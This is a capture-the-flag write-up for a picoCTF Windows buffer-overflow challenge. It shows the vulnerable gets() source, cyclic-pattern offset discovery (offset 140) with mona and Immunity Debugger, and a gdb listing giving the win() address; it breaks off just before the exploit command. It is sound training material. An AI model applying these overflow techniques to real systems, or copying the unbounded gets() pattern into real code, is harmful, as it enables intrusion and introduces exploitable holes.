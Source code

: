 ### Binary Exploitation

### Source: PICOCTF

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ file vuln.exe 
vuln.exe: PE32 executable (console) Intel 80386, for MS Windows
```

Its a windows executable

Source code is given

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

We can see the program prints our give me a string then receives out input using the get() call which is vulnerable to buffer overflow

So obviously our goal is to return to the win function

Unlike using gdb to debug i don't know if that is possible 

But in this case i'll use `Immunity Debugger`

So i'll hop on to my windows box and run the binary one my windows machine
![image](https://user-images.githubusercontent.com/113513376/217090561-3582499d-757e-4bca-b0b5-2ace6694ae01.png)

So with this i'll attach the process on immunity debugger
![image](https://user-images.githubusercontent.com/113513376/217090666-8a33b8d7-ca7b-45ee-86ae-ef7c221874eb.png)

Now i will generate a msf pattern

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ msf-pattern_create -l 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

Now this is the string i'll give the binary as input

The program crashes 
![image](https://user-images.githubusercontent.com/113513376/217091167-08e3c036-d782-4d4f-995b-f7af604e54c9.png)

So with this i can use the mona plugin to get the offset

```
Command: !mona findmsp -distance 250
```
![image](https://user-images.githubusercontent.com/113513376/217091847-883f5faa-62cc-496e-a898-347bf7bb0dcb.png)

Here's the important part

```
Log data, item 16
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x37654136 (offset 140)
```

Cool the offset is 140

Now i'll get make the exploit script

But before that i'll get the address of the win function using gdb

```
┌──(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ gdb-multiarch -q vuln.exe
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from vuln.exe...
[*] Not a valid file format: Not a valid ELF file (magic)
gef➤  info functions
All defined functions:

File ./debian/tmp/usr/i686-w64-mingw32/include/math.h:
166:    void __mingw_raise_matherr(int, const char *, double, double, double);
168:    void __mingw_setusermatherr(int (*)(struct _exception *));
276:    int _matherr(struct _exception *);

File ./mingw-w64-crt/crt/CRT_fp10.c:
9:      void _fpreset(void);

File ./mingw-w64-crt/crt/charmax.c:
17:     static int my_lconv_init(void);

File ./mingw-w64-crt/crt/crt_handler.c:
194:    long _gnu_exception_handler@4(EXCEPTION_POINTERS *);

File ./mingw-w64-crt/crt/crtexe.c:
181:    int WinMainCRTStartup(void);
437:    int atexit(_PVFV);
209:    int mainCRTStartup(void);
125:    static void __mingw_invalidParameterHandler(const wchar_t *, const wchar_t *, const wchar_t *, unsigned int, uintptr_t);
238:    static int __tmainCRTStartup(void);
138:    static int pre_c_init(void);
166:    static void pre_cpp_init(void);

File ./mingw-w64-crt/crt/dllargv.c:
18:     int _setargv(void);

File ./mingw-w64-crt/crt/gccmain.c:
55:     void __do_global_ctors(void);
24:     void __do_global_dtors(void);
78:     void __main(void);

File ./mingw-w64-crt/crt/gs_support.c:
104:    void __report_gsfailure(ULONG_PTR);
50:     void __security_init_cookie(void);

File ./mingw-w64-crt/crt/pesect.c:
45:     PIMAGE_SECTION_HEADER _FindPESection(PBYTE, DWORD_PTR);
67:     PIMAGE_SECTION_HEADER _FindPESectionByName(const char *);
130:    PIMAGE_SECTION_HEADER _FindPESectionExec(size_t);
160:    PBYTE _GetPEImageBase(void);
172:    WINBOOL _IsNonwritableInCurrentImage(PBYTE);
24:     WINBOOL _ValidateImageBase(PBYTE);
112:    int __mingw_GetSectionCount(void);
98:     PIMAGE_SECTION_HEADER __mingw_GetSectionForAddress(LPVOID);
192:    const char *__mingw_enum_import_library_names(int);

File ./mingw-w64-crt/crt/pseudo-reloc.c:
460:    void _pei386_runtime_relocator(void);
83:     static void __report_error(const char *, ...);
182:    static void mark_section_writable(LPVOID);

File ./mingw-w64-crt/crt/tlssup.c:
76:     BOOL __dyn_tls_init@12(HANDLE, DWORD, LPVOID);
109:    int __tlregdtor(_PVFV);
136:    static BOOL __dyn_tls_dtor(HANDLE, DWORD, LPVOID);

File ./mingw-w64-crt/crt/tlsthrd.c:
42:     int ___w64_mingwthr_add_key_dtor(DWORD, void (*)(void *));
65:     int ___w64_mingwthr_remove_key_dtor(DWORD);
122:    WINBOOL __mingw_TLScallback(HANDLE, DWORD, LPVOID);
99:     static void __mingwthr_run_key_dtors(void);

File ./mingw-w64-crt/misc/invalid_parameter_handler.c:
15:     static _invalid_parameter_handler mingw_get_invalid_parameter_handler(void);
7:      static _invalid_parameter_handler mingw_set_invalid_parameter_handler(_invalid_parameter_handler);

File ./mingw-w64-crt/stdio/acrt_iob_func.c:
9:      FILE *__acrt_iob_func(unsigned int);

Non-debugging symbols:
0x00401500  __gcc_register_frame
0x00401520  __gcc_deregister_frame
0x00401530  win
0x004015a9  vuln
0x004015cf  main
0x00402630  __chkstk_ms
0x0040265c  vfprintf
0x00402664  strncmp
0x0040266c  strlen
0x00402674  signal
0x0040267c  setvbuf
0x00402684  puts
0x0040268c  memcpy
0x00402694  malloc
0x0040269c  gets
0x004026a4  fwrite
0x004026ac  free
0x004026b4  fprintf
0x004026bc  fopen
0x004026c4  fgets
0x004026cc  fflush
0x004026d4  exit
0x004026dc  calloc
0x004026e4  abort
0x004026ec  _onexit
0x004026f4  _initterm
0x004026fc  _cexit
0x00402704  _amsg_exit
0x0040270c  __setusermatherr
0x00402714  __set_app_type
0x0040271c  __p__fmode
0x00402724  __p__acmdln
0x0040272c  __getmainargs
0x00402770  register_frame_ctor
0x00402780  _CTOR_LIST__
0x0040278c  _DTOR_LIST__
gef➤
```

Now here's the exploit command, I didn't really put it in form of a exploit script



